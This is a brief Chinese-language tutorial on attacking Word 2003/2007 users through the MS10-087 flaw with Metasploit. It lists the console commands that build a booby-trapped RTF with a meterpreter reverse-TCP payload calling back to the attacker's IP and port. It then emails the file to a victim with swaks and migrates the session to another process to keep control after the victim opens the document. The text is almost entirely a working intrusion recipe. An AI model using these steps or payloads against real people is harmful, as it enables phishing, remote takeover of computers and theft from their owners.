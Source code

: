 ## 使用msf进行攻击(使用漏洞MS10-087)
    msf是一个专业的支持大多数漏洞攻击的工具

    攻击目标为word2003主流版本和2007的部分版本
    msfconsole进入控制台
    查找ms10-087
    set PAYLOAD windows/meterpreter/reverse_tcp  //设定攻击载荷为反弹TCP连接会话
    set LHOST 192.168.250.162  //设置反弹连接目标IP
    set LPORT 8080                          //设置反弹连接目标端口号
    set FILENAME money.rtf     //创建的word文档名称为money.rtf，格式必须是rtf，一会儿我们再把它改名为.doc也是可以正常执行的。
    exploit //生成带攻击代码的word文档

    swaks  --to  example@example.com --from xxx@xxx.com  --ehlo freebuf.com --body hello --header "Subject: download" --attach  money.doc



    对方打开word文件，根据反弹的meterpreter就可以在控制台控制对方电脑了
    但是在这时关闭文档连接就断了，这里可以用
    ps 查找运行的程序
    mirgate [pid]

